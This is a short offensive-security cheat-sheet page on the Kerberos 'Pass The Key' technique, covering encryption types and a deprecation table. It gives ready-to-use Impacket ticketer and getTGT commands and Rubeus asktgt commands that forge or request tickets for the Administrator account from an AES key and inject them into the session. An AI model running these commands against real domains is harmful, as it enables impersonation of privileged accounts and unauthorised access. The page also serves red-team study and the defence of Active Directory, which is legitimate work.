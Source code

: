 # Hash - Pass The Key

Pass The Key allows attackers to gain access to systems by using a valid session key instead of the user's password or NTLM hash. This technique is related to other credential-based attacks like Pass The Hash (PTH) and Pass The Ticket (PTT) but specifically uses session keys to authenticate.

Pre-authentication requires the requesting user to provide a secret key, which is derived from their password and may use encryption algorithms such as DES, RC4, AES128, or AES256.

* **RC4**: ARCFOUR-HMAC-MD5 (23), in this format, this is the NTLM hash, go to **Pass The Hash** to use it directly and **Over Pass The Hash** page to request a TGT from it.
* **DES**: DES3-CBC-SHA1 (16), should not be used anymore and have been deprecated since 2018 ([RFC 8429](https://www.rfc-editor.org/rfc/rfc8429)).
* **AES128**: AES128-CTS-HMAC-SHA1-96 (17), both AES encryption algorithms can be used with Impacket and Rubeus tools.
* **AES256**: AES256-CTS-HMAC-SHA1-96 (18)

In the past, there were more encryptions methods, that have now been deprecated.

| enctype                    | weak?| krb5   | Windows |
| -------------------------- | ---- | ------ | ------- |		
| des-cbc-crc                | weak	| <1.18	 | >=2000  | 
| des-cbc-md4                | weak	| <1.18	 | ?       | 
| des-cbc-md5                | weak	| <1.18	 | >=2000  | 
| des3-cbc-sha1              | 	 	| >=1.1	 | none    | 
| arcfour-hmac               | 	 	| >=1.3	 | >=2000  | 
| arcfour-hmac-exp           | weak	| >=1.3	 | >=2000  | 
| aes128-cts-hmac-sha1-96    | 	 	| >=1.3	 | >=Vista | 
| aes256-cts-hmac-sha1-96	 |      | >=1.3	 | >=Vista | 
| aes128-cts-hmac-sha256-128 | 	 	| >=1.15 | none    | 
| aes256-cts-hmac-sha384-192 | 	 	| >=1.15 | none    | 
| camellia128-cts-cmac	 	 |      | >=1.9	 | none    | 
| camellia256-cts-cmac	 	 |      | >=1.9	 | none    | 

Microsoft Windows releases Windows 7 and later disable single-DES enctypes by default.


Either use the AES key to generate a ticket with `ticketer`, or request a new TGT using `getTGT.py` script from Impacket.

## Generate a new ticket

* [fortra/impacket/ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)
    ```powershell
    impacket-ticketer -aesKey 2ef70e1ff0d18df08df04f272df3f9f93b707e89bdefb95039cddbadb7c6c574 -domain lab.local Administrator -domain-sid S-1-5-21-2218639424-46377867-3078535060
    ```

## Request a TGT

* [fortra/impacket/getTGT.py](https://github.com/fortra/impacket/blob/master/examples/getTGT.py)
    ```powershell
    impacket-getTGT -aesKey 2ef70e1ff0d18df08df04f272df3f9f93b707e89bdefb95039cddbadb7c6c574 lab.local
    ```

* [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
    ```powershell
    .\Rubeus.exe asktgt /user:Administrator /aes128 bc09f84dcb4eabccb981a9f265035a72 /ptt
    .\Rubeus.exe asktgt /user:Administrator /aes256:2ef70e1ff0d18df08df04f272df3f9f93b707e89bdefb95039cddbadb7c6c574 /opsec /ptt
    ```


## References

* [MIT Kerberos Documentation - Encryption types](https://web.mit.edu/kerberos/krb5-1.18/doc/admin/enctypes.html)